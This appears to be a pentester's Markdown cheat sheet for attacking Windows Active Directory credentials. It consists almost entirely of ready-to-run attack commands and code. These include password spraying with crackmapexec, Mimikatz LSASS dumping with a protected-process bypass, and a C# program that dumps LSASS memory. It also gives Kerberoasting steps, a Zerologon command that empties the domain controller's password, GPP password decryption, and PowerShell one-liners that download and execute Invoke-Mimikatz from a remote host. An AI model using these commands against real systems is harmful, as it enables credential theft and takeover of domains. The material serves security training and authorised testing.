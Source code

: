 # Authentication

<details>

<summary>Password Spraying</summary>

```bash
crackmapexec smb 192.168.165.122 -u user.txt -p password --continue-on-success 
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
 # IF ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005) --> Need bypass PPL
lsadump::sam
lsadump::secrets
lsadump::cache
```

```
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

</details>

<details>

<summary>Getting Past Protected Process Light (PPL) for Mimikatz</summary>

* Detecting LSASS executing as Protected Process Light?

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

* How to workaround?
  * Must download mimidrv.sys in the same folder as mimikatz.exe&#x20;

<pre><code><strong>mimikatz # !+
</strong>mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords)
</code></pre>

</details>

<details>

<summary>Mimikatz from dmp file</summary>

<pre><code><strong>using System;
</strong>using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
          IntPtr hFile, int DumpType, IntPtr ExceptionParam,
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
</code></pre>

* Release --> x64 --> .\Minidump.exe from local admin account&#x20;
* Lsass.dmp is saved in C:\Windows\tasks

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set_empty_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>

